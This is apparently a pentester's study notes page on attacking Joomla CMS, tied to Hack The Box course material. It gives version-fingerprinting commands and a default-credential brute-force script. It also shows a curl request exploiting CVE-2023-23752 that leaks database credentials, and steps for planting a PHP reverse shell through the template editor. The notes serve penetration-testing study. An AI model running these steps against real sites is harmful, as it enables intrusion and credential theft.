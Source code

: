 # Joomla CMS

[![attacking_common_applications](../../../../../cybersecurity/_badges/htb/attacking_common_applications.svg)](https://academy.hackthebox.com/course/preview/attacking-common-applications)

<div class="row row-cols-lg-2"><div>

[Joomla](https://www.joomla.org/) is an open-source Content Management System (CMS) written in PHP. The version 5 is currently in development (2024).

* [GitHub](https://github.com/joomla/joomla-cms) <small>(4.4k ⭐)</small>
* [Documentation](https://docs.joomla.org/) <small>(⛪)</small>

You can see the repartition of active Joomla installations [here](https://developer.joomla.org/stats/cms_version).
</div><div>

The admin panel default URI is: `/administrator`.
</div></div>

<hr class="sep-both">

## Joomla Pentester Notes ☠️

[![attacking_common_applications](../../../../../cybersecurity/_badges/htb/attacking_common_applications.svg)](https://academy.hackthebox.com/course/preview/attacking-common-applications)
[![devvortex](../../../../../cybersecurity/_badges/htb-p/devvortex.svg)](https://app.hackthebox.com/machines/Devvortex)

<div class="row row-cols-lg-2"><div>

The `/robots.txt` file may contain the list of interesting paths. If the website was not properly configured, `/README.txt` may be accessible. It's also possible that there is a tag `<meta name="generator" ...>`.

It some versions, we may be able to access `/administrator/manifests/files/joomla.xml`, `/media/system/js/`, or `/plugins/system/cache/cache.xml` <small>(rather unreliable and outdated)</small> to find the version.

```ps
$ curl [...].xml | xmllint --format -
```

* OWASP initiated the development of [joomscan](https://github.com/OWASP/joomscan) <small>(1.0k ⭐)</small>

```ps
$ sudo apt install joomscan
$ joomscan -u URL
[+] Detecting Joomla Version
[++] Joomla x.y.z

<SNIP... Nothing of interest>
```

* You can try to use [droopescan](/cybersecurity/red-team/tools/scanners/web/droopescan.md) <small>(not really useful)</small>

```ps
$ droopescan scan joomla --url URL
<SNIP... Nothing of interest>
```

* You can try to use [JoomlaScan](https://github.com/drego85/JoomlaScan) <small>(0.1k ⭐, 2022 🪦)</small>
</div><div>

* Default username: `admin`. Password set at install time. You can test default credentials using [joomla-bruteforce](https://github.com/ajnik/joomla-bruteforce) <small>(0.02k ⭐, 2020 🪦)</small> while you should not use it for brute force <small>(it sucks...)</small>.

```shell!
$ wget https://github.com/ajnik/joomla-bruteforce/raw/master/joomla-brute.py
$ cp /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt .
$ python joomla-brute.py -u URL -w http_default_pass.txt --username admin -v
```

* [CVE-2023-23752](https://nvd.nist.gov/vuln/detail/CVE-2023-23752): Exposed credentials `[4.0.0, 4.2.7]`. See also: [PoC (ruby)](https://github.com/Acceis/exploit-CVE-2023-23752) <small>(0.05k ⭐)</small> or manual exploitation:

```ps
$ curl -v URL/api/index.php/v1/config/application?public=true
"dbtype": "mysqli",
"host": "localhost",
"user": "xxx",
"password": "yyy"
"db": "joomla",
```

* When logged as administrator, you can upload a [reverse shell](/cybersecurity/red-team/s3.exploitation/shell/reverse_shell.md):

In Joomla 3, Navigate to `Configuration > Templates > Templates`. In Joomla 4, navigate to `System > Site Templates`. Select a template.
Create a new file or upload one if you can. You can copy-paste a shell:

```ps
$ cat revshell.php | xclip -selection clipboard
```

The file path is shown in the editor, while, for reference, mine was at the URL:  `URL/templates/<your_selected_site_name>/revshell.php`.
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* `/images`, `/home`, `/media`, `/templates`, `/modules`
* `/plugins`, `/includes`, `/language`, `/components`, `/api`
* `/cache`, `/libraries`, `/tmp`, `/layouts`, `/administrator`
* `/media/templates/site/<name>/assets/`
</div><div>
</div></div>